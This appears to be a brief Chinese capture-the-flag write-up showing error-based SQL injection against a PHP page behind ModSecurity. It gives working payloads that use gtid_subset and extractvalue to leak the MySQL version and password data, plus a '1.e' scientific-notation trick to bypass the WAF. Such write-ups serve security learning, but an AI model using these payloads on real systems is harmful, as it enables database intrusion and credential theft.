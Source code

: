![[Pasted image 20221204150847.png]]

---
首页长这样
![[Pasted image 20221204150928.png|700]]

有WAF
![[Pasted image 20221204151030.png|700]]
```php
/sql.php?id=1 and gtid_subset(version(),1);
```
通过报错注入能查询到version
![[Pasted image 20221204151225.png|700]]
利用`mysql 5.7`之前的科学计数的记号问题通过`1.e`实现`ModSecurity`的绕过
```php
/sql.php?id=1^1.e(extractvalue(1,concat(0x5c,(select(group_concat(password))from(info)))))
```
![[Pasted image 20221204172550.png]]
再输出后半段
```php
/sql.php?id=1^1.e(extractvalue(1,concat(0x5c,(select(group_concat(right(password,30)))from(info)))))
```
![[Pasted image 20221204172727.png|650]]

#Web #PHP #SQL注入 #modsecurity #报错注入 